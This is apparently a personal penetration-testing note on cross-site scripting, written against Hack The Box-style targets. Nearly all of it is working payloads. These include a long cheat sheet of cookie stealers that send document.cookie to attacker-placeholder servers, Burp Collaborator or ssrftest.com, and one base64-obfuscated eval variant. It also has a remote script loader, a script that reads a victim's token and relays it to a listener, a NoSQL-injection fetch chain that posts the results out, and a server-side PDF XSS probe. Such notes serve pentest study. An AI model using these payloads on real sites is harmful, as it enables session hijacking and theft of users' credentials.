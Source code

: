 ```yaml
---
creation date: April 17th 2023
last modified date: April 17th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[XSS]]  
___

## Description:  
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

### Good test payloads
```
<img src =q onerror=prompt(8)>
```

### Classic Cookie Stealer
```
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
Here we have used btoa() method for converting the cookie string into base64 encoded string.
Setup http server to catch responses:
```
python3 -m http.server -m 80
```


### Downloader for longer XSS payloads
```
<script src=http://10.10.14.23:80/payload.js>
```

### stealing value set in a response (such as a jwt token)
Use a downloader to pull the following code:
```
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == 4 && xhr.status == 200) {
		var yourtoken = xhr.response
		var xhr2 = new XMLHttpRequest();
		xhr2.open("GET", "http://127.0.0.1:8000/?body=" + yourtoken);
		xhr2.send();
	}
}
xhr.open("GET", "https://some-url.com/v2/authenticationtoken/refresh");
xhr.send();
```
This script will send a request to a specific page as the user and then will send the response back to you.
Make sure to set the first URL as yourself (and open a python http listener) and set the second URL to the request containing the sensitive info in the response.
**This will grab the entire body, use the article below you need to grab a header**

https://medium.com/@agrawalsmart7/steal-csrf-auth-unique-key-header-with-xss-5a54c38d7ec3

### HttpOnly attribute bypass
https://www.shorebreaksecurity.com/blog/xss-exploitation-with-xhr-response-chaining/

### Javascript to make a request to a page as another user

```

var data = new URLSearchParams('email[$ne]=1&password[$regex]=^69.*$');
fetch('http://staff-review-panel.mailroom.htb/auth.php', {
	method: 'POST',
	headers: {
		'Content-Type': 'application/x-www-form-urlencoded'
	},
	body: data.toString()
})
	.then(response => response.text())
	.then(data => {
	// Make a POST request to another website with the data
		fetch('http://10.10.14.23/post', {
			method: 'POST',
			headers: {
				'Content-Type': 'text/plain'
			},
			body: data
		})
			.then(response => console.log('Data sent:', response));
	});

```

# Server Side XSS (Dynamic PDF)
[hacktrick article](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)
If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.

```
Discovery:
List current directory
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>



```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 17th 2023 (12:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
